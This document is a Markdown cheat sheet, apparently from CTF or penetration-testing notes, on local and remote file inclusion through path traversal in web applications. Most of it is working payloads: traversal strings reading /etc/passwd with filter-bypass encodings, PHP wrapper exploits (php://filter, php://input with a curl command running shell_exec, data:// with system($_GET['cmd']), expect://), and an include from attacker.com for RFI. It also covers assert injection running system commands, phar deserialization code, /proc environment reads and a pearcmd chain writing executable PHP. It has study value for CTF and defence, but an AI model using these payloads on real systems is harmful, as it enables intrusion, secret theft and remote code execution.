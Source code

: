 # LFI/RFI via Path Traversal
> LFI (commonly exploited through directory traversal) refers to the inclusion of unintended (but locally avaliable on the server) files into a frontend interface that can be accessed by an attacker.

This differs from RFI (Remote File Inclusion), which is the inclusion of remote files (not originally available on the server) that can result in RCE. LFI is usually milder compared to RFI, but can still be deadly in early stages of an attack, such as viewing the source of an application to identify possible vectors for RCE.

## OG exploit (path/directory traversal)

`https://example.com/?page=../../../../../../flag.txt`

### Filter bypass
`example.com/?page=....//....//etc/passwd`

`?page=..///////..////..//////etc/passwd`

Some applications may try to validate the start of the file path.  
`?page=/var/www/images/../../../etc/passwd`

You can also url-encode or double url-encode to bypass some filters.  
`?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`

`?page=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd`

If the application checks for file extension:  
`?page=../../../etc/passwd%00.png`

## Python's urllib
urllib.request.urlopen() has a quirky built-in functionality to automatically parse `<URL:http://example.com>` and `<http://example.com>` to `http://example.com`. 

We can bypass certain filters like scheme filters this way, as urllib.parse.urlparse() doesn't do the same thing, but instead interprets the entire thing as the path.

## PHP

### Path truncation (bypass appending of more chars at end)

`example.com/?page=/etc/passwd%00`
(Fixed in php 5.3)
This will signal EOL and ignore the rest of filename after the null byte

### URL scheme exploits (works with functions like **file**, **open**, **fwrite**, **fclose**, **file_get_contents**, **file_put_contents** etc)

*NOTE: Remember to urlencode payloads if necessary!*

#### php://filter

After directory traversal has been identified, to view php source instead, use php file filters

`https://example.com/?page=php://filter/convert.base64-encode/resource=flag.php`

`https://example.com/?page=php://filter/read=string.rot13/resource=flag.php`

Other filters:
- [x] string.toupper
- [x] string.tolower
- [ ] string.strip\_tags

The filter is necessary to ensure the source is returned, instead of just executing the php. After returning the source, it can be decoded (b64decode for the former, rot13 for the latter)

> Sometimes RFI may also be possible.

#### http://

Can redirect to external source, such as attacker's server -> RCE
If extension is appended, bypass by added a query, `http://attacker.com/?q=` -> `include('http://attacker.com/?q=.php')`

#### php://input

Reads input from POST request body
`php://input`
`curl -X POST --data '<?php echo shell_exec('id'); ?>' 'https://example.com/?page=php://input' -k -v`

#### zip://

(note: following exploits appended where directory traversal was identified, eg. `example.com/?page=EXPLOIT`)
`zip://<zipfile>#<file>` to upload files zipped and decompress on target.

#### data://

`data://text/plain, <?php system($_GET["cmd"]);`
`data://text/plain;base64, <b64encoded-exploit>`

#### expect://

`expect://ls`

#### phar://

Note: not as useful, because phar file has to first be present on target. Useful if unrestricted uploads are allowed and filename can be determined. Also useful if app only reads the file, and doesn't execute it (in this case, deserialization = execution)
Create a phar file

```php
// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();
```

If a file operation is now performed on our existing Phar file via the phar:// wrapper, then its serialized meta data is unserialized. If this application has a class named AnyClass and it has the magic method `__destruct()` or `__wakeup()` defined, then those methods are automatically invoked

```php
class AnyClass {
    function __destruct() {
            echo $this->data;
                }
                }
                // output: rips
                include('phar://test.phar');
```

### LFI/RCE via assert

If source looks like this:
`assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");`
`' and die(show_source('/etc/passwd')) or '` (similar to SQLi)
`' and die(system('whoami')) or '`

## proc filesystem

The /proc directory contains one subdirectory for each process running on the system, which is named after the process ID. PID can be bruteforced (up to 2^15).

`/proc/self` is a symlink that points to the currently running process. 

Intersting payloads:
- `/proc/[PID]/cmdline` (shows process invocation command, may expose paths, usernames, passwords)
- `/proc/[PID]/environ` (shows env vars)
- `/proc/[PID]/cwd` (shows current working directory)
- `/proc/[PID]/fd/[0-9]` (contains one entry for each file the process has open)

## PHP pearcmd LFI2RCE

pearcmd.php (installed by default on Docker php images, usually found at /usr/local/lib/php/pearcmd.php). 
This internally calls `pear`, which has a subcommand that allows us to create PHP config files.

`pear config-create <root path> <filename>`

The stuff in root path gets repeated a number of times in the config file. This is the output:

```
$ pear config-create "/tmp/<?=system('ls')>" /tmp/asdf.php
$ cat /tmp/asdf.php

#PEAR_Config 0.9
a:12:{s:7:"php_dir";s:30:"/tmp/<?=system('ls')>/pear/php";s:8:"data_dir";s:31:"/tmp/<?=system('ls')>/pear/data";s:7:"www_dir";s:30:"/tmp/<?=system('ls')>/pear/www";s:7:"cfg_dir";s:30:"/tmp/<?=system('ls')>/pear/cfg";s:7:"ext_dir";s:30:"/tmp/<?=system('ls')>/pear/ext";s:7:"doc_dir";s:31:"/tmp/<?=system('ls')>/pear/docs";s:8:"test_dir";s:32:"/tmp/<?=system('ls')>/pear/tests";s:9:"cache_dir";s:32:"/tmp/<?=system('ls')>/pear/cache";s:12:"download_dir";s:35:"/tmp/<?=system('ls')>/pear/download";s:8:"temp_dir";s:31:"/tmp/<?=system('ls')>/pear/temp";s:7:"bin_dir";s:26:"/tmp/<?=system('ls')>/pear";s:7:"man_dir";s:30:"/tmp/<?=system('ls')>/pear/man";}
```

Afterwards, `include`ing /tmp/asdf.php will execute `ls` a couple of times, and RCE will be achieved.

### Query string exploitation

`?path=../../../usr/local/lib/php/pearcmd.php&+config-create+tmp<?=system('ls')>+/tmp/asdf.php`

If you need spaces in your RCE, you can use ${IFS} (+ won't work as pear will treat it as a parameter delimiter)

*If your browser automatically URLencodes the special characters (`<?'>`), use curl or Burp Pro instead*

